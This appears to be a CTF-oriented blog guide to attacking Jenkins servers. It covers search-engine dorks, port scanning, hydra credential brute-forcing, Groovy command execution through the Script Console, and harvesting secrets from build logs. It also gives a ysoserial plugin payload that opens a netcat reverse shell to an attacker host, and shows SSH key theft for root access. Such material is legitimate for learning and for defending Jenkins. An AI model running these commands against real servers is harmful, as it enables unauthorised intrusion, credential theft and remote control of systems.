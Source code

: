 ```yaml
---
title: "Starting Point: A Comprehensive Guide to Jenkins Reconnaissance"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, Jenkins, reconnaissance, recon]
---
```


# Starting Point: A Comprehensive Guide to Jenkins Reconnaissance

Jenkins is a widely used automation server often targeted in Capture The Flag (CTF) challenges. Misconfigured Jenkins instances can lead to sensitive information disclosure, remote code execution, and privilege escalation. This guide focuses on reconnaissance techniques to assess Jenkins security.

---

## **1. Finding Jenkins Instances**

### **Identifying Jenkins via Search Engines**
Public Jenkins servers can sometimes be found via search engines like Shodan or Google Dorking:

- **Shodan Query:**
  ```
  title:"Dashboard [Jenkins]"
  ```
- **Google Dorks:**
  ```
  intitle:"Dashboard [Jenkins]"
  inurl:"/manage"
  ```

### **Scanning for Jenkins on a Target Network**
Using `nmap` to find Jenkins servers:

```bash
nmap -p 8080,8443 --open -sV target-ip
```

Look for Jenkins-specific headers:

```bash
curl -I http://target-ip:8080
```

---

## **2. Enumerating Jenkins Features**

### **Checking for Anonymous Access**
Some Jenkins instances allow unauthenticated users to access the system:

```bash
curl -s http://target-ip:8080/
```

Try accessing key paths:

- `/manage`
- `/script`
- `/job/{job-name}`

If anonymous access is enabled, you might be able to list or modify jobs.

### **Brute-Forcing Credentials**
Use common Jenkins credentials:

```bash
hydra -L users.txt -P passwords.txt target-ip http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^'
```

---

## **3. Exploiting Jenkins Misconfigurations**

### **Accessing the Script Console**
If you have admin access, the Script Console (`/script`) allows arbitrary Groovy execution:

```groovy
println "Hello from Jenkins!"
```

For command execution:

```groovy
def proc = "whoami".execute()
proc.text
```

### **Checking for Build Logs with Secrets**
Many Jenkins jobs log sensitive credentials:

```bash
curl -s http://target-ip:8080/job/test/buildNumber/consoleText
```

Look for:
- API keys
- Database credentials
- SSH keys

### **Using Malicious Plugins**
If you can upload plugins, use `ysoserial` to generate a payload:

```bash
java -jar ysoserial.jar CommonsCollections6 "nc -e /bin/bash attacker-ip 4444" > exploit.jar
```

Upload `exploit.jar` via `/pluginManager/uploadPlugin`.

---

## **4. Privilege Escalation in Jenkins**

### **Exploiting Misconfigured Credentials Storage**
Check for stored credentials via `/credentials` API:

```bash
curl -u admin:password http://target-ip:8080/credentials/
```

### **Abusing Script Approval Settings**
If the `Groovy` sandbox is disabled, execute system commands:

```groovy
def cmd = "id".execute()
cmd.text
```

### **Privilege Escalation via SSH Keys**
If Jenkins runs as a privileged user, search for SSH keys:

```bash
find / -name 'id_rsa' 2>/dev/null
```

If found, use:

```bash
ssh -i id_rsa root@target-ip
```

---

## **Conclusion**

Reconnaissance on Jenkins targets can uncover misconfigurations leading to full system compromise. By checking for public access, exploiting script consoles, and searching logs for secrets, attackers can escalate privileges within Jenkins environments. 

🚀 Keep learning and happy hacking!

---

💡 **Want more Jenkins security insights?** Stay tuned for advanced exploitation techniques!

